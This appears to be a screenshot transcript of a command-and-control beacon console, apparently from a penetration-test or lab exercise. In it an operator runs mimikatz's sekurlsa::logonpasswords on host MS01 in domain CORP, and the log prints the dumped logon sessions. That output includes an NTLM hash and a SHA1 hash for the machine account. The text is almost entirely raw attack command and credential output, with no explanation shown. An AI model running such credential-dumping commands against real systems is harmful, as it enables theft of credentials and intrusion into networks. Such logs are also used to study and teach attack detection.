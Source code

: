 
```powershell
[10/06 12:14:35] beacon> mimikatz !sekurlsa::logonpasswords
[10/06 12:14:37] [*] Tasked beacon to run mimikatz's !sekurlsa::logonpasswords command
[10/06 12:14:38] [+] host called home, sent: 813691 bytes
[10/06 12:14:40] [+] received output:

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : MS01$
Domain            : CORP
Logon Server      : (null)
Logon Time        : 10/5/2023 9:39:07 AM
SID               : S-1-5-18
	msv :	
	tspkg :	
	wdigest :	
	 * Username : MS01$
	 * Domain   : CORP
	 * Password : (null)
	kerberos :	
	 * Username : ms01$
	 * Domain   : CORP.LOCAL
	 * Password : (null)
	ssp :	
	credman :	

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : MS01$
Domain            : CORP
Logon Server      : (null)
Logon Time        : 10/5/2023 9:39:07 AM
SID               : S-1-5-20
	msv :	
	 [00000003] Primary
	 * Username : MS01$
	 * Domain   : CORP
	 * NTLM     : b0008678126a9a7143961c96161725a4
	 * SHA1     : 570e49936ec2e700501645c102f53b64f66be28d
	tspkg :	
	wdigest :	
	 * Username : MS01$
	 * Domain   : CORP
	 * Password : (null)
	kerberos :	
	 * Username : ms01$
	 * Domain   : CORP.LOCAL
	 * Password : (null)
	ssp :	
	credman :	

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 10/5/2023 9:39:07 AM
SID               : S-1-5-19
	msv :	
	tspkg :	
	wdigest :	
	 * Username : (null)
	 * Domain   : (null)
```